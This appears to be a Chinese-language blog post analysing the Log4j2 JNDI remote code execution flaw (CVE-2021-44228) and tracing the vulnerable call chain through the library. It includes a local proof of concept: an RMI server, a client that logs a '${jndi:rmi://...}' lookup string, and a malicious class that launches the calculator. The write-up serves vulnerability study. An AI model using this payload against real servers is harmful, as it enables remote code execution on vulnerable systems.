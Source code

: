 ```yaml
---
title: log4j2漏洞分析（CVE-2021-44228）
date: 2022-2-25
tags:
 - Vulnerabilities
 - 笔记
categories:
 - Vulnerabilities

---
```


## log4j2漏洞分析（CVE-2021-44228）

### 0x01 漏洞描述

Apache Log4j2 是 Apache 的一个开源项目，Apache Log4j2 是一个基于 Java 的日志记录工具，使用非常广泛，被大量企业和系统索使用，漏洞触发及其简单，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置。

影响范围：Apache Log4j 2.x<=2.14.1

### 0x02 漏洞复现

使用maven引入相关组件，相应的pom.xml文件：

```xml
<dependencies>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-core</artifactId>
        <version>2.14.1</version>
    </dependency>
</dependencies>
```

下面的复现利用的是log4j2提供的jndi功能，自己手动构建恶意类的方式调用

服务端：

```java
public class Rmiserver {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(12345);
        Reference reference = new Reference("Hello", "Hello",
                "http://127.0.0.1:8080/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj", referenceWrapper);
    }
}
```

客户端：

```java
public class Log4jTEst {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger();
        logger.error("${jndi:rmi://127.0.0.1:12345/obj}");
    }
}
```

恶意类：

```java
public class Hello implements ObjectFactory  {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("hello");
        Runtime.getRuntime().exec("calc");
        return null;
    }
}
```

复现：

![image-20220606150933683](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606150934.png)

### 0x03 漏洞调用链分析

在入口点logger.error()打上断点：

![image-20220606151109583](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606151109.png)

进入`org.apache.logging.log4j.spi#error`：

![image-20220606151733961](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606151734.png)

`org.apache.logging.log4j.spi#logIfEnabled`：

![image-20220606152129024](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606152129.png)

`org.apache.logging.log4j.spi#logMessageTrackRecursion`：

![image-20220606152226076](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606152226.png)

就这样一步步递归，走到关键点`org.apache.logging.log4j.core.appender#directEncodeEvent`。该方法的第一行代码将返回当前使用的布局，并调用对应布局处理器的encode方法

![image-20220606152427303](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606152427.png)

log4j2默认缺省布局使用的是PatternLayout：

![image-20220606152908926](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606152909.png)

继续跟进在encode中会调用toText方法，根据注释该方法的作用为创建指定日志事件的文本表示形式，并将其写入指定的StringBuilder中。`org.apache.logging.log4j.core.layout#encode`

![image-20220606153233315](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606153233.png)

跟进toText方法：`org.apache.logging.log4j.core.layout#toText`

![image-20220606153334624](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606153334.png)

接下来会调用`serializer.toSerializable`，并在这个方法中调用不同的Converter来处理传入的数据，如下图所示，

这里一步步将event添加到buf中：

![image-20220606153723600](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606153723.png)

一直添加到：

![image-20220606153811581](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606153811.png)

开始解析`${`。`org.apache.logging.log4j.core.pattern#format`

![image-20220606154019040](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606154019.png)

下面有一个关键点。这里对日志消息进行格式化，其中很明显的看到有针对字符”$”和”{“的判断，而且是连着判断，等同于判断是否存在”${“，这三行代码中关键点在于最后一行

![image-20220606154051465](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606154051.png)

![image-20220606154441647](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606154442.png)

注意此时的workingBuilder是一个StringBuilder对象，该对象存放的字符串如下所示

```
15.23.39.893 [main] ERROR Log4jTEst - ${jndi:rmi://127.0.0.1/obj}
```

本来这段字符串的长度是63，但是却给它改成了38，为什么呢？因为第38的位置就是`$`符号，也就是说只保留`$`之前的，`${jndi:rmi://127.0.0.1/obj}`这段不要了，从第38位开始append。而append的内容是什么呢？可以看到传入的参数是config.getStrSubstitutor().replace(event, value)的执行结果，其中的value就是`${jndi:rmi://127.0.0.1/obj}`这段字符串。也就是说这里append的字符串就是这段字符串replace后的内容。

replace的作用简单来说就是想要进行一个替换，我们继续跟进`org.apache.logging.log4j.core.lookup#replace`：

![image-20220606155051249](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606155051.png)

经过一系列的嵌套调用，来到了`org.apache.logging.log4j.core.lookup.StrSubstitutor#substitute`。StrSubstitutor类提供了关键的 `DEFAULT_ESCAPE` 是 `$`，`DEFAULT_PREFIX` 前缀是 `${`，`DEFAULT_SUFFIX` 后缀是 `}`，`DEFAULT_VALUE_DELIMITER_STRING` 赋值分隔符是 `:-`，`ESCAPE_DELIMITER_STRING` 是 `:\-`

![image-20220606200449819](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200450.png)

这个类提供的 `substitute` 方法，是整个 Lookup 功能的核心，用来递归替换相应的字符，这里来仔细看一下处理逻辑。

方法通过 while 循环逐个字符串寻找 `${` 前缀

![image-20220606200554339](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200554.png)

找到前缀后开始找后缀，但是在找后缀的 while 循环里，又判断了是否替换变量中的值，如果替换，则再匹配一次前缀，如果又找到了前缀，则 continue 跳出循环，再走一次找后缀的逻辑，用来满足变量中嵌套的情况。

![image-20220606200711471](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200711.png)

后续的处理中，通过多个 if/else 用来匹配 `:-` 和 `:\-`

![image-20220606200812347](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200812.png)

![image-20220606200846234](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200846.png)

在没有匹配到变量赋值或处理结束后，将会调用 `resolveVariable` 方法解析满足 Lookup 功能的语法，并执行相应的 lookup ，将返回的结果替换回原字符串后，再次调用 `substitute` 方法进行递归解析。

![image-20220606155354466](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606155354.png)

跟进`org.apache.logging.log4j.core.lookup#resolveVariable`调用了lookup函数。

![image-20220606155814564](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606155814.png)

而这实际上是一个代理类 `Interpolator`，这个类在初始化时创建了一个 `strLookupMap` ，将一些 lookup 功能关键字和处理类进行了映射，存放在这个 Map 中

![image-20220606160238614](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606160238.png)

处理和分发的关键逻辑在于其 `lookup` 方法，通过 `:` 作为分隔符来分隔 Lookup 关键字及参数，从`strLookupMap` 中根据关键字`jndi`作为 key 匹配到对应的处理类`jndiLookup`，并调用其 lookup 方法。

![image-20220606160340327](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606160340.png)

![image-20220606160429996](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606160430.png)

由此调用了jndiLookup方法，弹出了计算器

![image-20220606160615534](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606160616.png)

### 0x04 参考文献

* [从零到一带你深入 log4j2 Jndi RCE CVE-2021-44228漏洞](https://www.anquanke.com/post/id/263325)
* [浅谈 Log4j2 漏洞](https://tttang.com/archive/1378/)
* [史上最全 log4j2 远程命令执行漏洞汇总报告](https://cloud.tencent.com/developer/article/1919456)
* [Log4j2 研究之lookup](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247485584&idx=1&sn=2fad11942986807ea7545f7b8b5d6af8&scene=21#wechat_redirect)
